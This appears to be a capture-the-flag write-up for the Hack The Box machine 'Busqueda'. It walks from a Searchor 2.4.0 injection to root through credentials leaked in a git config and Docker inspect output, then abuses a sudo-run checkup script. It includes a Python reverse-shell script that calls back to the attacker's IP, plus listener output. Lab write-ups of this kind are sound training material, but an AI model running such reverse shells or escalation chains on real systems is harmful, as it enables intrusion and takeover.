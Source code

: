 If we access to http://10.10.11.208:80/ it returns an error and we found the url searcher.htb in the toolbar, so lets add the domain to the /etc/hosts file and now we have access to the website

In the website we found the web application called Searchor 2.4.0 and after some research we found a **[RCE vulnerability](https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-)**. This vulnerability is due to query parameter is not sanitized so imporing a one liner reverse shell through this parameter we can grab a shell

![[Pasted image 20230807163129.png]]

![[Pasted image 20230807175307.png]]

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.208] 40584
/bin/sh: 0: can't access tty; job control turned off
$ whoami
svc
```

Lets escalate privileges. After some search we found a .git folder in the `/var/www/app` directory. Inside we can find a credentials in the config file

```bash
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
svc@busqueda:/var/www/app/.git$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty
```

We found the credentials cody:jh1usoih2bkjaspwe92 . If we try it with our current session with `sudo -l` we find that `jh1usoih2bkjaspwe92` is a valid password

```bash
svc@busqueda:/var/www/app/.git$ sudo -l
[sudo] password for svc: jh1usoih2bkjaspwe92
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

We can run that command as sudo, so lets see what happen when we execute it

```bash
svc@busqueda:/tmp$ sudo python3 /opt/scripts/system-checkup.py *           
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

We have tried to modify the script, the python path and more things but nothing works so lets dig in the docker processes

```bash
svc@busqueda:/tmp$ sudo python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS        PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   7 months ago   Up 11 hours   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   7 months ago   Up 11 hours   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db

svc@busqueda:/tmp$ sudo python3 /opt/scripts/system-checkup.py docker-inspect 960873171e2e             
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
```

With a little search for the docker-inspect we found that we can retrieve the config file of the service by using the format parameter as `'{{.Config}}'`

```bash
svc@busqueda:/tmp$ sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{.Config}}' 960873171e2e                                                      
{960873171e2e   false false false map[22/tcp:{} 3000/tcp:{}] false false false [USER_UID=115 USER_GID=121 GITEA__database__DB_TYPE=mysql GITEA__database__HOST=db:3306 GITEA__database__NAME=gitea GITEA__database__USER=gitea GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin USER=git GITEA_CUSTOM=/data/gitea] [/bin/s6-svscan /etc/s6] <nil> false gitea/gitea:latest map[/data:{} /etc/localtime:{} /etc/timezone:{}]  [/usr/bin/entrypoint] false  [] map[com.docker.compose.config-hash:e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515 com.docker.compose.container-number:1 com.docker.compose.oneoff:False com.docker.compose.project:docker com.docker.compose.project.config_files:docker-compose.yml com.docker.compose.project.working_dir:/root/scripts/docker com.docker.compose.service:server com.docker.compose.version:1.29.2 maintainer:maintainers@gitea.io org.opencontainers.image.created:2022-11-24T13:22:00Z org.opencontainers.image.revision:9bccc60cf51f3b4070f5506b042a3d9a1442c73d org.opencontainers.image.source:https://github.com/go-gitea/gitea.git org.opencontainers.image.url:https://github.com/go-gitea/gitea]  <nil> []}

svc@busqueda:/tmp$ sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{.Config}}' f84a6b33fb5a 
{f84a6b33fb5a   false false false map[3306/tcp:{} 33060/tcp:{}] false false false [MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF MYSQL_USER=gitea MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh MYSQL_DATABASE=gitea PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin GOSU_VERSION=1.14 MYSQL_MAJOR=8.0 MYSQL_VERSION=8.0.31-1.el8 MYSQL_SHELL_VERSION=8.0.31-1.el8] [mysqld] <nil> false mysql:8 map[/var/lib/mysql:{}]  [docker-entrypoint.sh] false  [] map[com.docker.compose.config-hash:1b3f25a702c351e42b82c1867f5761829ada67262ed4ab55276e50538c54792b com.docker.compose.container-number:1 com.docker.compose.oneoff:False com.docker.compose.project:docker com.docker.compose.project.config_files:docker-compose.yml com.docker.compose.project.working_dir:/root/scripts/docker com.docker.compose.service:db com.docker.compose.version:1.29.2]  <nil> []}
```

So here we have the following credentials

* Gitea process 
	`gitea:yuiu1hoiu4i5ho1uh`
* Mysql process 
	`gitea:yuiu1hoiu4i5ho1uh`
	root password `jI86kGUuj87guWr3RyF`

It seems that nothing more we could do here, so we could try to access gitea.searcher.htb. After add this new domain to the hosts file the gitea app load perfectly

![[Pasted image 20230807202707.png]]

Trying credentials, we could access with cody:jh1usoih2bkjaspwe92

![[Pasted image 20230807202805.png]]

But it's just the webapp folder, so nothing relevant. We have found that a user called administrator exists, so trying credentials we found valid administrator:yuiu1hoiu4i5ho1uh . Here we can found the script system-checkup.py (the one which we can run as sudo)

![[Pasted image 20230807203045.png]]

And from here we can see everything that it does. We found a really special part of the code which says that executing the script with the parameter `full-checkup` will execute a script called `full-checkup.py` in the directory that we are, so we can create a file with that name (in tmp for example) with a reverse shell, execute the command as sudo and get a shell with privileges

```bash
svc@busqueda:/tmp$ vim full-checkup.sh                                     
#!/usr/bin/python3
import socket
import subprocess
import os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.14",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty

svc@busqueda:/tmp$ sudo python3 /opt/scripts/system-checkup.py full-checkup
Something went wrong
```

It doesn't work, maybe because it doesn't have execution privileges

```bash
svc@busqueda:/tmp$ ls -la
drwxrwxrwt 17 root root 4096 Aug  7 18:11 .
drwxr-xr-x 19 root root 4096 Mar  1 10:46 ..
-rw-r--r--  1 svc  svc   237 Aug  7 18:11 full-checkup.sh

svc@busqueda:/tmp$ chmod +x full-checkup.sh
```

Now run it again

```bash
svc@busqueda:/tmp$ sudo python3 /opt/scripts/system-checkup.py full-checkup

----------------------

┌──(kali㉿kali)-[~/Documents/Resources]
└─$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.208] 41390
# whoami                      
root
```

And we are root!